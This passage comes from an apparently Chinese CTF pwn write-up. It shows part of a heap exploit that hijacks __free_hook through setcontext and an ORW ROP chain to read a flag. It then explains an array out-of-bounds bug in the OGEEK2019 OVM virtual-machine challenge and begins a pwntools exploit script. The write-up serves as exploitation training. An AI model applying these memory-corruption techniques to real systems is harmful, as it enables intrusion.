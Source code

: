 ```python
orw += p64(pop_rdi_ret) + p64(1)
orw += p64(Write)
###################
# 操作tcache_struct修改freehook为setcontext+53，并利用
create(7,0x3F0,'E4L4')
create(8,0x3F0,'\x00'*7 + '\x01' + '\x00'*0x38 +'\x00'*8*7 + p64(libc_base + libc.sym['__free_hook'])  + '\x00'*0x20 + p64(heap_base + 0x10 + 0xA0 + 0x10) + p64(pop_rdi_ret + 1) + orw + 'flag\x00')
log.info('setc:\t' + hex(libc_base + libc.sym['setcontext'] + 53))
create(3,0x80,p64(libc_base + libc.sym['setcontext'] + 53))

free(8)
p.interactive()
```

## OGEEK2019_FINAL_OVM(数组越界)

这道题是vmpwn的入门题了，同样分析输入流程

![image-20220410112550758](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220410112550758.png)

功能大致如下，对stack进行操作我们可以归为push/pop，赋值可以归为mov。漏洞点在mov指令未校验数组下标，数组越界。利用**stderr_got里存放了_IO_2_1_stderr**，来获得libc。

```python
mov reg, op		0x10 : reg[dest] = op
mov reg, 0		0x20 : reg[dest] = 0
mov mem, reg    0x30 : reg[dest] = memory[reg[src2]]
mov reg, mem    0x40 : memory[reg[src2]] = reg[dest]
push reg    0x50 : stack[result] = reg[dest]
pop reg     0x60 : reg[dest] = stack[reg[13]]
add         0x70 : reg[dest] = reg[src2] + reg[src1]
sub         0x80 : reg[dest] = reg[src1] - reg[src2]
and         0x90 : reg[dest] = reg[src2] & reg[src1]
or          0xA0 : reg[dest] = reg[src2] | reg[src1]
^          	0xB0 : reg[dest] = reg[src2] ^ reg[src1]
left        0xC0 : reg[dest] = reg[src1] << reg[src2]
right       0xD0 : reg[dest] = reg[src1] >> reg[src2]
0xFF : (exit or print) if(reg[13] != 0) print oper
```
这里写菜单，是按编译来写的，上一题是按功能来写的，个人感觉还是根据题目情况来做决定，2种写法都是可行的
```python
from pwn import *
context.log_level='debug'
p = process("vmpwn")
elf = ELF("vmpwn")
libc = elf.libc

s       = lambda data               :p.send(data)
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

def opcode(code, dst, op1, op2):
    res =  code<<24
    res += dst<<16
    res += op1<<8
    res += op2
    return str(res)

```